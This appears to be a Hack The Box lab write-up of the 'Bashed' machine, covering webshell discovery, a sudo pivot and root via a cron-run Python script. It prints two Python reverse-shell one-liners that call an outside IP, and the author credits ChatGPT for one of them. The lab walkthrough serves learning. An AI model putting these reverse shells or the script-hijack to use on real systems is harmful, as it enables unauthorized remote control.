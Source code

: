 Bahed - HTB Writeup 

![top](images/bashed/top-bash.png)

The bashed was a simple the box that was already running a webshell then the privileges were escalated by python script.   
The nmap scan revealed the only port 80 with no ssh which is unsusual.  
I opened the site at http and creator of the site has disclosed the information that he incorporated phpbash on this site.  
So i fuzzed directories and appended phpbash.php and found its location at /dev. So there goes the user flag.   

![fuzz](images/bashed/fuzzz-bash.png)
 
![bash](images/bashed/phpbash-bash.png)


Then i attempted to get reverse shell to my own machine however using basic bash syntax didnt work for some reason.  
Then chatgpt gave me this fuckass long python command to get reverse shell and it worked.    
  
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.7",9001)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);'  

After running sudo -l i found out that i can become the scriptmanager user and run scripts with his priveleges.

![scriptm](images/bashed/scriptmanager-bash.png)

So i became one.

![sudo](images/bashed/user-bash.png)

Then i discovered scripts directory in root dir that is owned by the scriptmanager.
There was python program and file generated by this python program.
When i deleted this file it came back meaning that the python program was executed repeatedly.

![sdsd](images/bashed/sudo-bash.png)

So what i did was i created new python file where i inserted the fuckass long shell from earlier and BANG i got a new session running as root on second listening port.
echo 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.7",9002)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);' > execute.py


![root](images/bashed/root-bash.png)

The reason this worked was that python file was being executed by root.
![bot](images/bashed/bot-bash.png)


